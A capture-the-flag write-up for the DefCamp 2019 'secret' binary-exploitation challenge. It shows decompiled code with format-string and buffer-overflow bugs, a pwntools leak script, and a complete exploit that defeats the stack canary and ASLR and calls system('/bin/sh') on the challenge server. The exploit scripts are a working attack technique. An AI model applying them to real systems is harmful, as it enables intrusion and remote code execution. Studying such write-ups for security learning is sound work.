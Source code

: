 ```yaml
---
layout: post
title:  "DefCamp Qualifiers 2019: secret"
date:   2019-09-08 17:00:00 +0800
categories: pwn
tags: DefCamp-Qualifiers-2019
---
```


This binary had a format string vulnerability + a stack buffer overflow vulnerability. We use the format string vulnerability to leak the stack canary and a libc address from the stack. Calculate libc base address then find the address of `system` and a `/bin/sh` string, then call `system("/bin/sh")` to get a shell.

### Challenge

* **Category:** pwn
* **Points:** 162
* **Solves:** 55

> Target: 206.81.24.129:1339
>
> Download [binary](https://drive.google.com/file/d/1Y0LdAk3K0NPIzFGsIOhNlOBwfIn-BTLK/view?usp=sharing)
>
> Author: Andrei

### Solution

This challenge is practically identical to Not So Easy Bof from HackCon 2019. You can find my writeup for that challenge [here](/pwn/2019/08/23/hackcon-not-so-easy-b0f.html). I'll skip a lot of the in depth stuff. The binary has all protections enabled except Full RELRO.
```sh
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/defcamp-2019/pwn/secret$ checksec secret
[*] '/ctf/pwn-and-rev/defcamp-2019/pwn/secret/secret'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

To start off with, I open the binary in IDA to disassemble it. In this case the binary is simple enough to just use the decompiler, but you should realize that I usually only use the decompiler as a guide to see what I should really take a look at, and then use the actual disassembly to understand it.

The main function is as follows:
```c
 1. int __cdecl main(int argc, const char **argv, const char **envp)
 2. {
 3. 	char s; // [rsp+0h] [rbp-50h]
 4.   unsigned __int64 v5; // [rsp+48h] [rbp-8h]
 5.
 6.   v5 = __readfsqword(0x28u);
 7.   setvbuf(stdin, 0LL, 2, 0LL);
 8.   setvbuf(_bss_start, 0LL, 2, 0LL);
 9.   memset(&s, 0, 0x40uLL);
10.   printf("Enter your name?\nName: ");
11.   read(0, &s, 0x40uLL);
12.   printf("Hillo ");
13.   printf(&s); // FORMAT STRING VULNERABILITY HERE
14.   secret();
15.   return 0;
16. }
```

We see a format string vulnerability at line 13, as well as a call to `secret()`. The secret function does the following:
```c
 1. unsigned __int64 secret()
 2. {
 3.   char s1; // [rsp+0h] [rbp-90h]
 4.   unsigned __int64 v2; // [rsp+88h] [rbp-8h]
 5.
 6.   v2 = __readfsqword(0x28u);
 7.   printf("Enter secret phrase !\nPhrase: ");
 8.   gets(&s1); // BUFFER OVERFLOW VULNERABILITY HERE
 9.   printf("Entered secret > %s .\n", &s1);
10.   if ( !strcmp(&s1, "supersecretdctf2019") )
11.     puts("\nYou entered the same string two times");
12.   else
13.     puts("\nEntered strings are not same!");
14.   return __readfsqword(0x28u) ^ v2;
15. }
```

Here we see a buffer overflow vulnerability at line 8.

The key takeaway is that stack canaries are enabled, so in order to exploit this, my plan is the following:

1. Use the format string vulnerability to leak the stack canary from the stack as well as a libc address from the stack
2. Use the buffer overflow vulnerability to hijack program execution and jump to a one gadget in libc

Now before we begin, the challenge didn't provide a libc file, so I first just leaked a couple addresses off the stack on the remote server using the following script:
```python
#!/usr/bin/env python2

from pwn import *

context.log_level = 'critical'
BINARY = './secret'

for i in range(1, 26):
	#p = process(BINARY)
	p = remote('206.81.24.129', 1339)
	p.sendlineafter(': ', 'AAAAAAAA %{}$lx'.format(i))
	print '%02d: '%(i) + p.recvline()[:-1]
	p.close()

print ''
```
```c
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/defcamp-2019/pwn/secret$ ./leak.py
01: Hillo AAAAAAAA 7ffd17473a40
02: Hillo AAAAAAAA 7f0489d77780
03: Hillo AAAAAAAA 7fb1ac3332c0
04: Hillo AAAAAAAA 7fc48cc0c700
05: Hillo AAAAAAAA 6
06: Hillo AAAAAAAA 4141414141414141
07: Hillo AAAAAAAA a786c24372520
08: Hillo AAAAAAAA 0
09: Hillo AAAAAAAA 0
10: Hillo AAAAAAAA 0
11: Hillo AAAAAAAA 0
12: Hillo AAAAAAAA 0
13: Hillo AAAAAAAA 0
14: Hillo AAAAAAAA 7ffc69e731c0
15: Hillo AAAAAAAA 50c8a62af6681400
16: Hillo AAAAAAAA 55844e558c40
17: Hillo AAAAAAAA 7f9da5e8c830
18: Hillo AAAAAAAA 0
19: Hillo AAAAAAAA 7ffe154e1b08
20: Hillo AAAAAAAA 100000000
21: Hillo AAAAAAAA 55d0bb425b6d
22: Hillo AAAAAAAA 0
23: Hillo AAAAAAAA 1b80133a664fcb03
24: Hillo AAAAAAAA 55abfbcb8960
25: Hillo AAAAAAAA 7ffd7da3f850
```

Now using gdb on my local machine, I know that the address at offset 2 is the libc address of `_IO_stdfile_1_lock_`, while the value at offset 15 is the stack canary.

Now the libc address at offset 2 changed constantly, but the last 12 bits were always `0x780`. I ran the local binary on multiple VMs with different libc versions, and found that the remote binary is using `libc-2.23` as that was the only one where the address at offset 2 ended with `0x780`. Now knowing this, I used gdb with an Ubuntu Xenial VM (which comes with `libc-2.23`) to find that the address at offset 2 is always `libc_base_address + 0x3c6780`.

I also found out using gdb that the number of bytes I have to type in before reaching the stack canary in the `secret()` function is 136 bytes.

For more information about how exactly I do all of the above, please check out [my writeup for Not So Easy Bof from HackCon 2019](/pwn/2019/08/23/hackcon-not-so-easy-b0f.html) which is basically the same challenge. My writeup for that challenge goes more in depth about the steps taken.

Next, I just leak the stack canary at offset 15 and the libc address at offset 2. I then calculate the libc base address, and since none of the one shot gadgets were working, I find the addresses of `system()` and the `/bin/sh` string. I then create the buffer overflow payload knowing that it will be `136bytes + 8byte_stack_canary + 8byte_saved_ebp + return_address`.

The following script will do the job:
```python
#!/usr/bin/env python2

from pwn import *

HOST, PORT = '206.81.24.129', 1339
BINARY = './secret'

elf = ELF(BINARY)
libc = ELF('./libc-2.23.so') # libc.so.6 from Ubuntu Xenial

def start():
    if not args.REMOTE:
        return process(BINARY)
    else:
        return remote(HOST, PORT)

p = start()

# canary offset is 136 bytes, index 15
# libc offset 0x3c6780 for address index 2
p.sendlineafter(': ', '0x%2$lx-0x%15$lx') # Leak libc address (idx 2) and the canary (idx 15)
leaks = p.recvline().split('-')

libc.address = int(leaks[0].split(' ')[1], 16) - 0x3c6780
canary = int(leaks[1], 16)
one_gadget = 0xf1147 # 0x45216, 0x4526a, 0xf02a4 <- none of the gadgets worked
system = libc.symbols['system']
bin_sh = libc.search('/bin/sh').next()
pop_rdi = libc.address + 0x21102 # found using ROPgadget on libc-2.23.so

log.info('libc base: ' + hex(libc.address))
log.info('canary: ' + hex(canary))
log.info('system: ' + hex(system))
log.info('/bin/sh: ' + hex(bin_sh))
log.info('pop rdi: ' + hex(pop_rdi))

payload = 'A'*136 # Write upto canary
payload += p64(canary) # Write the canary so we can smash the stack without it complaining
payload += 'B'*8 # Overwrite ebp
payload += p64(pop_rdi) # Jump to pop rdi gadget
payload += p64(bin_sh) # Put address of '/bin/sh' string into rdi
payload += p64(system) # call system("/bin/sh")

p.sendlineafter(': ', payload)

p.interactive()

p.close()
```

```sh
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/defcamp-2019/pwn/secret$ ./exploit.py REMOTE
[*] '/ctf/pwn-and-rev/defcamp-2019/pwn/secret/secret'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/ctf/pwn-and-rev/defcamp-2019/pwn/secret/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 206.81.24.129 on port 1339: Done
[*] libc base: 0x7f4154a32000
[*] canary: 0x7d10bab19e1eaf00
[*] system: 0x7f4154a77390
[*] /bin/sh: 0x7f4154bbed57
[*] pop rdi: 0x7f4154a53102
[*] Switching to interactive mode
Entered secret > AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA .

Entered strings are not same!
$ ls
flag
pwn
readme
$ cat flag
DCTF{17AF6D77BFDAC4CAF6CD2FD2F3EB85FB654D2E36745F926169C0958333496979}$
```

Flag: `DCTF{17AF6D77BFDAC4CAF6CD2FD2F3EB85FB654D2E36745F926169C0958333496979}`
